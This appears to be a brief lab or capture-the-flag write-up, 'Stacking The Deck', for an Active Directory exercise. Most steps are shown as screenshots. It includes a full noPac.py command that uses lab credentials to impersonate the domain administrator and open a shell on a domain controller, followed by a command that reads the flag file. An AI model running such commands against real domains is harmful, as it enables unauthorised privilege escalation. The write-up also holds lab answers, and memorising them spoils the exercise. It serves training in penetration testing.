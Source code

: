 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  - [Question 2](#question-2)
    - [The way to hack](#the-way-to-hack-1)
    - [Answer](#answer-1)
  
## Question 1

### The way to hack

![Picture](../../Image/Stacking%20The%20Deck/10.png)

### Answer

![Picture](../../Image/Stacking%20The%20Deck/11.png)

## Question 2

### The way to hack

- I use command to get the admin priviledge.
- Payload:
  - sudo python3 [noPac.py](http://nopac.py/) INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
  ![Picture](../../Image/Stacking%20The%20Deck/12.png)
- After that, i hack into the window.
- Payload:
  - type C:\Users\Administrator\Desktop\DailyTasks\flag.txt
  ![Picture](../../Image/Stacking%20The%20Deck/13.png)

### Answer

![Picture](../../Image/Stacking%20The%20Deck/14.png)